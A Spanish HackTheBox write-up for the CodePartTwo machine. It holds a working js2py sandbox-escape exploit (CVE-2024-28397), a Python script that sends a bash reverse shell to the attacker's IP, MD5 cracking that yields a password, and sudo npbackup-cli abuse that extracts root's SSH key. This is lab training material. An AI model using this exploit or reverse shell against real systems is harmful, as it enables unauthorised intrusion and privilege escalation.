---

# Descripcion

CodePartTwo es una máquina Linux de dificultad Easy en HackTheBox que expone SSH (22) y una aplicación web Flask sobre Gunicorn en el puerto 8000. La aplicación incluye un editor de código JavaScript vulnerable a CVE-2024-28397, un sandbox escape en la librería js2py 0.74 que permite ejecución remota de comandos. Tras obtener acceso inicial, se enumera una base de datos SQLite con hashes MD5 que, al ser crackeados, otorgan acceso SSH como el usuario marco. Finalmente, una utilidad de backup llamada npbackup-cli con privilegios de sudo permite escalar a root.

---

# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar cuáles se encuentran abiertos en la máquina objetivo.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -sS -vvv 10.129.232.59
```




> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para detectar los servicios y sus versiones, además de ejecutar los scripts predeterminados de enumeración de Nmap.

```bash
nmap -p22,8000 -sC -sV 10.129.232.59
```



## Web

> Utilizamos WhatWeb para identificar las tecnologías y componentes empleados por la aplicación web.

```bash
whatweb http://codeparttwo.htb:8000
```



- Web



> Nos encontramos con la siguiente página web. Vamos a pulsar sobre `Download APP` para descargar un archivo `.zip` y analizar su contenido.



> Parece que contiene los archivos correspondientes a la propia aplicación web. Vamos a revisar el archivo `requirements` para identificar las dependencias utilizadas.



> Aquí podemos ver las versiones de las librerías que utiliza la aplicación.

# Shell como app

## CVE-2024-28397

> Buscando información sobre las dependencias, encontramos que `js2py` en su versión `0.74` presenta una vulnerabilidad que permite ejecutar comandos en el sistema mediante **Remote Code Execution (RCE)**. Se trata de la vulnerabilidad `CVE-2024-28397`.

> Esta vulnerabilidad permite escapar del entorno de ejecución de JavaScript y acceder a objetos internos de Python. Mediante esta técnica podemos localizar la clase `subprocess.Popen` y utilizarla para ejecutar comandos en el sistema operativo.

> Para ello, debemos enviar un código JavaScript específico que aproveche esta vulnerabilidad.

```javascript
let cmd = "printf 'd2hvYW1pCg=='|base64 -d|bash";
// Access Python's object hierarchy through JavaScript
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;
let obj = a(a(a, "__class__"), "__base__");

// Function to find subprocess.Popen class in Python's object hierarchy
function findpopen(o) {
    let result;
    // Iterate through all subclasses of the object
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i];
        // Look specifically for subprocess.Popen class
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item;
        }
        // Recursively search in subclasses
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result;
        }
    }
}
// Execute the command using subprocess.Popen
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(result);
result;
```

> Este es el código JavaScript que debemos enviar a la aplicación. En la primera línea, donde aparece el comando codificado en `base64`, indicamos qué instrucción queremos ejecutar en la máquina víctima.

> Vamos a automatizar el proceso mediante un script en `Python` que construya el payload, lo envíe a la aplicación y nos permita obtener una reverse shell.

## Script en python

```python
import requests
import base64
import json

URL = 'http://codeparttwo.htb:8000/run_code'

def create_payload():

    shell = "bash -i >& /dev/tcp/10.10.14.154/7777 0>&1"
    encoded_command = base64.b64encode(shell.encode()).decode()
    js_code = f'''

let cmd = "printf '{encoded_command}'|base64 -d|bash";
// Access Python's object hierarchy through JavaScript
let a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__;
let obj = a(a(a, "__class__"), "__base__");

// Function to find subprocess.Popen class in Python's object hierarchy
function findpopen(o) {{
    let result;
    // Iterate through all subclasses of the object
    for(let i in o.__subclasses__()) {{
        let item = o.__subclasses__()[i];
        // Look specifically for subprocess.Popen class
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {{
            return item;
        }}
        // Recursively search in subclasses
        if(item.__name__ != "type" && (result = findpopen(item))) {{
            return result;
        }}
    }}
}}

// Execute the command using subprocess.Popen
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(result);
result;
'''
    return js_code

def send_request(payload):
    request_payload = {"code": payload}
    headers = {"Content-Type": "application/json"}
    try:
        # Send POST request with the malicious JavaScript code
        response = requests.post(URL, data=json.dumps(request_payload), headers=headers, timeout=10)
        return response.text
    except requests.exceptions.Timeout:
        return "Tiempo de espera maximo alcanzado"
    except Exception as e:
        return str(e)

payload = create_payload()
request = send_request(payload)
print(request)
```

> Antes de ejecutar el script, nos ponemos a la escucha en nuestra máquina por el puerto `7777` para recibir la reverse shell.

## RCE

- Lo ejecutamos:

```bash
python3 script.py
```



# Shell como marco

## Enumeracion

> Comprobamos los usuarios existentes en el sistema para identificar posibles cuentas de interés.

```bash
ls /home
cat /etc/passwd
```





> Podemos observar que `app` y `marco` son los dos usuarios que tienen una shell habilitada. Nuestro siguiente objetivo será obtener acceso como el usuario `marco`.

> Revisamos si existen permisos interesantes en `sudoers`, binarios con el bit `SUID` o capacidades especiales (`Capabilities`), pero no encontramos nada relevante.

> Sin embargo, recordamos que entre los archivos que descargamos anteriormente había una referencia a una base de datos. Vamos a investigar si encontramos alguna en la máquina.

```bash
cd /home/app/app/instance
ls
```



## BBDD

> La abrimos utilizando SQLite:

```bash
sqlite3 users.db
.tables
```



> Consultamos el contenido de la tabla `user`:

```sql
select * from user;
```



> Obtenemos el siguiente hash:

```text
649c9d65a206a75f5abe509fe128bce5
```

> Tenemos una contraseña almacenada mediante un hash `MD5`. Vamos a intentar crackearla utilizando `John the Ripper` para comprobar si corresponde a la contraseña del usuario `marco`.

- Primero guardamos el hash en un archivo:

```bash
echo "649c9d65a206a75f5abe509fe128bce5" > hash.txt
```

## Crackeo del hash

> Iniciamos el ataque utilizando el diccionario `rockyou.txt` y especificando el formato `raw-md5`:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



> Conseguimos recuperar la contraseña. Vamos a comprobar si podemos utilizarla para acceder mediante SSH.

- Credenciales obtenidas:

```text
user: marco
pass: sweetangelbabylove
```

## SSH

> Intentamos conectarnos:

```bash
ssh marco@10.129.232.59
```



> Conseguimos acceder correctamente como `marco`. Dentro de su directorio personal encontramos la primera flag.

# Shell como root

## Enumeracion

> Una vez dentro como `marco`, vamos a comprobar qué comandos podemos ejecutar con privilegios de administrador mediante `sudo`.

```bash
sudo -l
```



> Encontramos que podemos ejecutar `npbackup-cli` con privilegios elevados. Vamos a investigar el funcionamiento de este binario y las opciones que ofrece.

## NPBackup

Lo ejecutamos:

```bash
sudo /usr/local/bin/npbackup-cli
```



> En nuestro directorio encontramos un archivo de configuración que puede resultar interesante.

```bash
ls -la
```



Revisamos el archivo `.conf`:

```bash
cat npbackup.conf
```



> Parece tratarse de un archivo de configuración en formato `YAML`, utilizado para definir los parámetros del proceso de backup.

Vamos a consultar las opciones disponibles del binario para entender cómo podemos interactuar con las copias de seguridad.

```bash
sudo /usr/local/bin/npbackup-cli --help
```









> Estas son las opciones que más nos interesan, ya que podemos indicar un archivo de configuración personalizado.

> Aprovechando esta funcionalidad, podemos crear una configuración nueva en la que indiquemos que se realice una copia de seguridad del directorio `/root`.

> Posteriormente, podremos utilizar la opción `--ls` para listar el contenido del backup y `--dump` para extraer archivos concretos.


> Primero copiamos el archivo de configuración original y modificamos sus permisos para poder editarlo:

```bash
cp npbackup.conf npbackup2.conf
chmod 777 npbackup2.conf
```

> Añadimos la ruta `/root` a la configuración:

```bash
nano npbackup2.conf
```




> Una vez modificada la configuración, ejecutamos el binario indicando nuestro archivo personalizado y utilizando la opción `-b` para iniciar la copia de seguridad.

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup2.conf -b
```



> Comprobamos los archivos disponibles dentro del backup:

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --ls
```



> Parece que el archivo de configuración que creamos ha desaparecido y se ha mantenido únicamente el original. Aun así, podemos utilizar este último sin problema.

> Al listar el contenido de la copia de seguridad, comprobamos que aparece el directorio `root`. Por tanto, vamos a intentar extraer su clave privada SSH (`id_rsa`) para conseguir acceso como administrador.

## SSH

> Ejecutamos `--dump` indicando la ruta del archivo que queremos extraer:

```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/.ssh/id_rsa
```



> Guardamos la clave privada obtenida en nuestra máquina y le asignamos los permisos necesarios para poder utilizarla mediante SSH.

```bash
chmod 600 id_rsa
```

> Finalmente, utilizamos la clave privada para conectarnos como `root`:

```bash
ssh root@10.129.232.59 -i id_rsa
```

